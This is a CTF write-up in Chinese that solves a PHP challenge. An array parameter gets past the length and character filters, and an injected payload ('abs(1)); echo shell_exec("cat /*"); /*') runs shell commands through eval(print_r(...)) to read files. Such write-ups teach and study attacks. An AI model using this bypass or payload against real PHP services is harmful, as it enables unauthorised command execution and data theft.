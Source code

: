 ## ヽ(#`Д´)ﾉ

這一題給的程式碼非常簡短：

``` php
 <?= 
 	highlight_file(__FILE__) &&
 	strlen($🐱=$_GET['ヽ(#`Д´)ﾉ'])<0x0A &&
 	!preg_match('/[a-z0-9`]/i',$🐱) &&
 	eval(print_r($🐱,1)); 
```

限制看起來很嚴格，長度最多只能到 9，而且還不能有任何英文數字。

之前有解過類似的需要用 xor 或是 not 來產生字元，然後再用 PHP 可以用字串 function 名稱執行函式的特性來執行，最後達成 RCE。

不過這題的長度限制是 9，再怎麼想都不可能，因為光是基本的一些字元就已經超過了。

所以這題換個角度想，可以用 array 來試試看，自己實際試過之後發現 array 確實可以繞過，前面兩個判斷都可以通過，那接下來的問題就是該怎麼讓：`eval(print_r($🐱,1)` 可以順利執行。

這邊我一開始的想法是讓 print_r 出來的東西變成合法的 php 程式碼，就可以成功執行了，於是我先用 print_r 出來的格式去跑 php，嘗試過底下這樣：

``` php
<?php
 $arr = array(
  [0] => 1
 );
 print_r($arr);
?>
```

執行之後會輸出：PHP Fatal error: Illegal offset type in /Users/li.hu/Documents/playground/php-test/er.php on line 3

看起來是 array 的 index 不能是陣列，不然就會出錯。原本想說那這條路應該行不通了，後來我想說：「那既然會出錯，有沒有可能在出錯之前先執行我想執行的函式？」，就嘗試了以下程式碼：

``` php
<?php
 $arr = array(
  [0] => system("ls")
 );
 print_r($arr);
?>
```

發現還真的印出結果了！而且原本的 fatal error 變成了 warning：Warning: Illegal offset type in /Users/huli/Documents/security/ais/php-challenge/b.php on line 3

我到現在還是不知道為什麼，但只要 value 的部分有 function call 就會這樣。

所以只要讓 print_r 產生出來的東西變成一段合法程式碼，就可以插入任意字元，後半段用 `/*` 註解掉就好，最後的解法長這樣：

``` php
abs(1)); echo shell_exec("cat /*"); /*
```

先用 abs(1) 把 fatal error 變 warning，然後執行想要的程式碼，最後用註解把後面跳掉，成功拿到 flag。
